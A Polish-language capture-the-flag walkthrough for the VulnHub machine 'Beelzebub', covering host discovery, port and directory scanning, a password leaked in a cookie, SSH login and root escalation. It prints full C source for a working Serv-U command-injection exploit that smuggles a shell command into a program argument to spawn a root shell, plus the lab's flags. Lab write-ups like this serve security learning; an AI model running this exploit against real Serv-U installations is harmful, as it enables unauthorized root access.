








# **CTF - Beelzebub**

`Autor`: adi7312

**Poziom trudności**: łatwy

**Link do maszyny**: [Beelzebub](https://www.vulnhub.com/entry/beelzebub-1,742/).


## **Skanowanie sieci**

**Cel:** Znaleźć IP podatnej maszyny.

W celu znalezienia maszyny *Beelzebub* korzystamy z polecenia:

    netdisocer -r 192.168.138.0/24





**IP Beelzebub'a: 192.168.138.136**


## **Skanowanie portów**

**Cel:** Dokonać enumeracji wersji usług, dowiedzieć się na jakim systemie operacyjnym działa host


    nmap 192.168.138.136 -sV -O -Pn





Jak widzimy host operuje na 2 portach: 22 - ssh, 80 - http.


## **Enumeracja**

Korzystamy z narzędzia *dirb*, wpisujemy polecenie:

    dirb http://192.168.138.136:80/

Wynikiem tego polecenia jest lista plików i folderów które znajdują się w naszym wrażliwym hoście. Przejrzyjmy sobie część tych plików zacznijmy od *index.php* w głównym katalogu.



Wpisując w przeglądarkę *http://192.168.138.136:80/index.php* nie otrzymujemy nic ciekawego, jednak w samym kodzie źródłowym możemy znaleźć podpowiedź.




Zamieńmy zatem wartość *beelzebub* na hash md5.

    echo -n "beelzebub" | md5sum

    Output: d18e1e22becbd915b45e0e655429d487

Spróbujmy teraz przejść na stronę z danym hashem i odziwo nie dostajemy *Not found* tylko *unable to connect* oznacza to, że dany folder istnieje ale nie możemy połączyć sie na daną stronę, ponownie dokonujemy enumeracji.

    dirb http://192.168.138.136/d18e1e22becbd915b45e0e655429d487/





Z powyższych katalogów najbardziej będzie nas interesować *wp-content/uploads*. W przeglądarce wygląda on tak:



Po wejściu w kataolog Talk to VALAK ukazuje nam się strona, wpisujemy tam dowolną nazwę i patrzymy na zakładkę Network w Web Developerze.



W nagłówku znajdował się plik *cookie* ustawiający hasło *M4k3Ad3a1*. Widziliśmy wcześniej że host ma otwarty port ssh, więc połączymy się z naszym hostem przez ssh. Wpisujemy więc polecenie:

    ssh krampus@192.168.138.136

Oraz podajemy zdobyte przed chwilą hasło.

## **Eskalacja uprawnień oraz zdobycie flagi**





Po zalogowaniu się, możemy potwierdzić że jesteśmy użytkownikiem *krampus* poleceniem `whoami`. Następnie używamy polecenia `sudo -l`, jednak nasz użytkownik nie może wykonać żadnego polecenia *sudo*, zatem szukamy wskazówek gdzie indziej. Po wpisaniu polecenia `ls -la` widzimy pewien element nazwany *.Serv-U-Tray.conf*, po krótki researchu dowiedzielismy się że możemy wykorzystać podatność serwera FTP Serv-u-tray do eskalacji uprawnień, tworzymy plik poleceniem: `touch priv_esc.c` oraz edytujemy jego zawartość poleceniem `nano priv_esc.c`. Wpisujemy poniższy kod.

```c
#include <stdio.h>
#include <unistd.h>
#include <errno.h>

int main()
{       
    char *vuln_args[] = {"\" ; id; echo 'opening root shell' ; /bin/sh; \"", "-prepareinstallation", NULL};
    int ret_val = execv("/usr/local/Serv-U/Serv-U", vuln_args);
    // if execv is successful, we won't reach here
    printf("ret val: %d errno: %d\n", ret_val, errno);
    return errno;
}
```

W nastepnej kolejności należy skompilować nasz program, robimy to poleceniem `gcc priv_esc.c`. Kompilator utworzył nam plik *a.out*, nadajemy temu plikowi uprawnienia *executable* poleceniem `chmod +x a.out`. Wykonujemy nasz program poleceniem `./a.out`. Otrzymaliśmy uprawnienia roota.

W celu zdobycia flagi użytkownika wchodzimy na puplit Krampusa i otwieramy flagę *user.txt*.

    cd /home/krampus/Desktop; cat user.txt
    Output: aq12uu909a0q921a2819b05568a992m9


W celu zdobycia flagi *roota* przechodzimy do katalogu */root* i otwieramy flagę.

    cd /root; cat root.txt
    Output: 8955qpasq8qq807879p75e1rr24cr1a5
    